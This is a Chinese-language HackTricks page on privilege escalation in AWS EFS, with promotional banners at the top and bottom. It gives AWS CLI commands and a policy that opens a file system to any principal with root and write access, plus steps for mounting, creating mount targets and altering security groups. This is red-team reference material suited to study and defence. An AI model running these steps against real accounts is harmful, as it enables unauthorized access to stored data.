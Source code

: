 # AWS - EFS 权限提升

<details>

<summary><strong>从零到英雄学习 AWS 黑客技术，参加</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks** 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## EFS

更多**关于 EFS 的信息**在：

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

请记住，为了挂载 EFS，您需要位于 EFS 暴露的子网中并且能够访问它（安全组）。如果正在发生这种情况，默认情况下，您将始终能够挂载它，但是，如果它受到 IAM 策略的保护，您需要拥有这里提到的额外权限才能访问它。

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

拥有这些权限中的任何一个，攻击者可以**更改文件系统策略**以**授予您访问权限**，或者只是**删除它**，以便授予**默认访问权限**。

要删除策略：
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
要更改它：
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

拥有此权限的攻击者将能够**挂载EFS**。如果写入权限默认不授予所有可以挂载EFS的用户，他将只有**读取权限**。
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
额外的权限 `elasticfilesystem:ClientRootAccess` 和 `elasticfilesystem:ClientWrite` 可以用来在文件系统挂载后**写入**文件系统，并以**根用户**身份**访问**该文件系统。

**潜在影响：** 通过定位文件系统中的敏感信息间接提权。

### `elasticfilesystem:CreateMountTarget`

如果攻击者位于一个**子网**中，而该子网中**不存在** EFS 的挂载目标。他可以利用这个权限在自己的子网中**创建一个**：
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**潜在影响：** 通过定位文件系统中的敏感信息间接提升权限。

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

在攻击者发现EFS在其子网中有挂载目标，但**没有安全组允许流量**的情况下，他可以通过**修改选定的安全组**来改变这一点：
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**潜在影响：** 通过定位文件系统中的敏感信息间接提升权限。



<details>

<summary><strong>从零开始学习AWS黑客攻击直到成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
